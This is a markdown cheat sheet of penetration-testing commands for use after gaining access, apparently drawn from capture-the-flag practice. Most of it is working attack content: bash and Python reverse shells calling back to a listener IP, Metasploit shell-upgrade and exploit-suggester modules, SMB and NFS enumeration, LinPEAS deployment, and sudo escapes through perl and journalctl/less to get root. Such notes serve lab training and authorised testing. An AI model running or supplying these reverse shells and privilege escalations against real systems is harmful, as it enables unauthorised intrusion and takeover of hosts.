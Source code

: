 # Attempt to Elevate permissions after entry



## Download file to remote host

Host:
```
nc -l PORT < /path/to/file
```

Client:
```
nc IP PORT > file
```

## Open SSH through Metasploit

```
use auxiliary/scanner/ssh/ssh_login
```

## Upgrade shell to meterpreter

```
use post/multi/manage/shell_to_meterpreter
```

### Gather random exploits possibilities.

```
use post/multi/recon/local_exploit_suggester
```
Gives readout of possible vulnerabilities of connected host


### NFS (RPCBIND?)

Enumerate NFS shares.

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.223.98
```

# Windows Specific

User Details
```
net user username
```

# Linux Specific

```sudo -l```

```whoami```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
scp /home/mike/linpeas.sh USER@IP:/home/USER
```
```
./linpeas.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


# FTP

Replicate entire FTP
```
wget -m ftp://anonymous:anonymous@IP
```


# Samba share

## Quick Enumeration

```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse IP
```

Change port to match nmap results. (Usually 139 or 445)

## Deep Enumeration

```
enum4linux -a IP | tee enum4linux.log
```


## Inspect Samba Share

```
smbclient //ip/sambashare
```


## Recursively download the SMB share

```
smbget -R smb://ip/sambashare
```

# PERL elevation

```
sudo /usr/bin/perl -e 'exec "/bin/sh"'
```

# JournalCTL Less exploitation

```
/usr/bin/sudo /usr/bin/journalctl -n5 - service.service

```
creates `less` to create 

Follow up with
```
!/bin/bash
``` 
to get root
